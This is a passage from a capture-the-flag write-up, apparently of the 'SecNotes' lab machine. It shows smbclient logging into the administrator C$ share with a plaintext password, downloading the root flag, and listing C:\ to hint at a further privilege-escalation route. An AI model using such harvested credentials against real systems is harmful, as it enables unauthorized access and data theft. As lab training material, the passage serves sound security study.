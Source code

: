 Using the same command, we are able to use the adminstrator credentials to mount the C drive as well.

```
┌──(kali㉿kali)-[~/Desktop/secnotes]
└─$ smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$                                        1 ⨯
Try "help" to get a list of possible commands.
smb: \> 
```

Afterwards, we will download the root flag to our local machine.

```
smb: \Users\Administrator\Desktop\> get root.txt
getting file \Users\Administrator\Desktop\root.txt of size 34 as root.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

### Obtaining root flag
```
┌──(kali㉿kali)-[~/Desktop/secnotes]
└─$ cat root.txt                                     
<Redacted root flag>
```

## Post-Exploitation
### Privilege Escalation via File System
Looking at the contents of C:\, we realize that there is a ubuntu.zip file, this hints that Ubuntu LTS is present on this machine. 

```
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\

06/21/2018  02:07 PM    <DIR>          Distros
06/21/2018  05:47 PM    <DIR>          inetpub
06/22/2018  01:09 PM    <DIR>          Microsoft
04/11/2018  03:38 PM    <DIR>          PerfLogs
06/21/2018  07:15 AM    <DIR>          php7
01/26/2021  02:39 AM    <DIR>          Program Files
01/26/2021  02:38 AM    <DIR>          Program Files (x86)
06/21/2018  02:07 PM       201,749,452 Ubuntu.zip
06/21/2018  02:00 PM    <DIR>          Users
01/26/2021  02:38 AM    <DIR>          Windows
               1 File(s)    201,749,452 bytes
               9 Dir(s)  13,882,724,352 bytes free
```
